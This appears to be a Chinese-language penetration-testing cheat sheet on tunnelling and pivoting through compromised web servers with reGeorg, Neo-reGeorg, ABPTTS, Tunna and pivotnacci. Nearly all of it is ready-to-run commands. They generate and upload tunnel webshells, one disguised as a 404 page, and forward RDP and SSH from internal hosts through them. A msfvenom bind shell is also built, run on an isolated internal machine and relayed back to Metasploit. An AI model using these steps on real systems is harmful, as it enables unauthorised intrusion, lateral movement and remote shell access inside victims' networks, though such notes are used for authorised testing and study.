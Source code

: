   #### reGeorg
	https://github.com/sensepost/reGeorg
	>python reGeorgSocksProxy.py -u http://靶机/tunnel.aspx -l 外网IP -p 10080
	打开Proxifier，更改为脚本指定的端口10080
![image](img/332.png)

	或proxychains
	>vim /etc/proxychains.conf
	去掉dynamic_chain注释>添加socks5 127.0.0.1 10080
![image](img/333.png)

	或MSF
	>setg proxies socks5:外网IP:10080
	>setg ReverseAllowProxy true 允许反向代理
![image](img/334.png)
  #### Neo-reGeorg
	Step 1. 设置密码生成 tunnel.(aspx|ashx|jsp|jspx|php) 并上传到WEB服务器
	$ python3 neoreg.py generate -k password
![image](img/335.png)

	伪装页面
	$ python3 neoreg.py generate -k <you_password> --file 404.html
	Step 2. 使用 neoreg.py 连接WEB服务器，在本地建立 socks 代理
	$ python3 neoreg.py -k password -u http://xx/tunnel.php
	$ python3 neoreg.py -k <you_password> -u <server_url> --skip
	开启代理
	$ python neoreg.py -k <you_password> -l 外网IP -p 10081 -u http://xx/neo-tunnel.aspx
![image](img/336.png)
![image](img/337.png)
  #### ABPTTS端口转发
	https://github.com/nccgroup/ABPTTS
	端口转发
	>python abpttsfactory.py -o webshell 生成shell
	./webshell目录下生成的相应脚本文件传入目标中
	>python abpttsclient.py -c webshell/config.txt -u "http://目标网址/trans.aspx" -f 攻击机IP:12345/目标IP:3389
![image](img/338.png)
![image](img/339.png)
![image](img/340.png)

	ABPTTS转发内网其他机器端口
	>python abpttsclient.py -c webshell/config.txt -u http://192.168.0.98/qq.aspx -f 192.168.0.107:33890/10.1.1.105:3389
![image](img/341.png)
![image](img/342.png)

	要转发多个机器或多个端口
	>python abpttsclient.py -c webshell/config.txt -u http://192.168.0.98/qq.aspx -f 192.168.0.107:33890/10.1.1.105:3389 -f 192.168.0.107:33891/10.1.1.101:80 -f 192.168.0.107:33892/10.1.1.102:22
	SSH代理一级网段
	需要一台有权限的Linux靶机
	>python abpttsclient.py -c webshell/config.txt -u http://192.168.0.98/qq.aspx -f 192.168.0.107:33890/10.1.1.108:22
	>ssh -p 222 -qTfnN -D 0.0.0.0:1081 root@192.168.0.107
![image](img/343.png)

	配置proxychains即可
![image](img/344.png)

	SSH代理二级网段
	需要靶机web权限，一级内网一台web权限
	转发内网web出来传入abptts的shell
	>python abpttsclient.py -c webshell/config.txt -u http://192.168.0.98/qq.aspx -f 192.168.0.107:8080/10.1.1.108:80 
	>python abpttsclient.py -c webshell/config.txt -u http://192.168.0.107/qq.aspx -f 192.168.0.107:222/10.1.1.106:22
	SSH连接192.168.0.107:222即可到达二级网络
	反弹msf
	kali生成bind型脚本
	>msfvenom -p linux/x64/shell_bind_tcp LPORT=12138 -f elf -o shell
	在二级不出网linux上执行
	将他的12138端口通过abptts转出
	>python abpttsclient.py -c webshell/config.txt -u http://192.168.0.98/qq.aspx -f 192.168.0.107:13128/10.1.1.101:12138
	Msf本地监听13128即可
  #### Tunna转发
	>python proxy.py -u http://192.168.0.98/tunnel.aspx -l 12138 -r 3389 –v
![image](img/345.png)

  #### pivotnacci
	>pip3 install pivotnacci
	>pivotnacci  https://domain.com/agent.php --password "s3cr3t"
	>pivotnacci  https://domain.com/agent.php --polling-interval 2000